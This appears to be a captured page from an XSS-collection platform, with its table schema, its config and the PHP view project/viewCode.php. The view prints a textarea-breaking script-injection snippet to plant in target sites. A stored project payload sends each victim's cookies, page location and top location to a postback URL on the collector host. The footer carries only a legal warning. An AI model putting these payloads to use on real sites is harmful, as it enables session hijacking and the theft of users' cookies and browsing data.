
The app's page /project/viewCode.php?id=5WDCa1 (signed in) with its own data.
### tables this page shows
CREATE TABLE `project` (
  `guid` varchar(255) NOT NULL,
  `user_guid` varchar(255) NOT NULL,
  `project_name` varchar(255) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP,
  `payload` text NOT NULL
);

### config/config.inc (called while the page is built, shortened)
<?php
  $xss_host="//127.0.0.1";
?>

### project/viewCode.php (the view, shortened to what this page needs)
<?php
  include("../utils/mysqli_utils.php");
  include("../config/config.inc");
  $stmt = $con->prepare("SELECT `guid`, `payload` FROM `project` WHERE `guid`=?");
  $stmt->bind_param("s", $_GET['id']);
  $stmt->execute();
  $result = $stmt->get_result();
?>
<!DOCTYPE html>
<html>
  <head>
    <link href="../assets/css/bootstrap.css" rel="stylesheet">
    <link href="../assets/css/bootstrap-responsive.css" rel="stylesheet">
  </head>
  <body>
    <div id="wrap">
      <div class="container">
        <?php include("../commons/nav.inc");?>
        <hr>
        <?php
          if (!empty($result) && mysqli_num_rows($result) != 0) {
            while ($row = $result->fetch_array()) {
        ?>
            <div>将如下代码植入怀疑出现xss的地方（注意'的转义）：</div>
            <pre class="well well-large">&lt;/tExtArEa&gt;&#039;&quot;&gt;&lt;sCRiPt sRC=<?php echo $xss_host."/?id=".$row['guid']; ?>&gt;&lt;/sCrIpT&gt;</pre>
            <div>如果管理员配置了rewrite，也可以如下使用：</div>
            <pre class="well well-large">&lt;/tExtArEa&gt;&#039;&quot;&gt;&lt;sCRiPt sRC=<?php echo $xss_host."/".$row['guid']; ?>&gt;&lt;/sCrIpT&gt;</pre>
            <div>Payload:</div>
            <pre class="well well-large"><?php echo $row['payload']; ?></pre>
        <?php
            }
          }
        ?>
      </div>
      <div id="push"></div>
    </div>
    <div id="footer">
      <div class="container">
        <p class="muted credit">注意：未获授权的安全测试将承担法律责任，请只在获得授权的情况下使用本工具。</p>
      </div>
    </div>
</body></html>

### project/viewCode.php (style rules this page uses)
html, body { height: 100%; }
#wrap { min-height: 100%; height: auto !important; height: 100%; margin: 0 auto -60px; }
#push, #footer { height: 60px; }
#footer { background-color: #f5f5f5; }
.container { width: auto; max-width: 680px; }
.container .credit { margin: 20px 0; }

### records on screen
project: guid "5WDCa1", payload "var x=new Image(); try { var myopener=''; myopener=window.opener && window.opener.location ? window.opener.location : ''; } catch(err) { } x.src='{host}/postback.php?id={projectId}&location='+escape(document.location)+'&toplocation='+escape(top.document.location)+'&cookie='+escape(document.cookie);"

### other values on screen
$_SESSION['nickname'] "盘古大帝"
